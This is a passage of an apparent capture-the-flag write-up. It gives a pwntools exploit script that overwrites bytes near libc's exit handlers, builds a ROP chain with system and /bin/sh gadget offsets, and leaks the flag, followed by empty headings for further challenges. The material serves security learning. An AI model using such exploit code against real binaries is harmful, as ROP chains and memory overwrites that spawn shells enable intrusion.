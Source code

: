 ```python
# pause()
p = lambda x, y: (hex(x) + ' ' + str(y)).encode().ljust(0x40, b'\0')

__run_exit_handlers = libc.address + 0x4560b
io.send(p(__run_exit_handlers, 1))
io.send(p(__run_exit_handlers + 1, 1))
io.send(p(__run_exit_handlers + 2, 1))
io.send(p(__run_exit_handlers + 3, 2))

exit_addr = libc.address + 0x455f0
io.send(p(exit_addr, 4))
io.send(p(exit_addr+4, 2))
# 0x43 54 46 7b 43 54
#   C  T  F  {  C  T

pop_rdi = libc.address + 0x2a3e5
system_addr = libc.address + 0x50d60
bin_sh_addr = libc.address + 0x1d8698
# io.sendline(p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr))

rop = ROP(libc)

flag_location = exe.address + 0x50a0
rop.call('write', [1337, flag_location, 100])
log.info(rop.dump())
io.sendline(rop.chain())

io.interactive()
```

---

Next writeups soon...

# StoryGen

# UBF (Unnecessary Binary Format)

# **Watthewasm**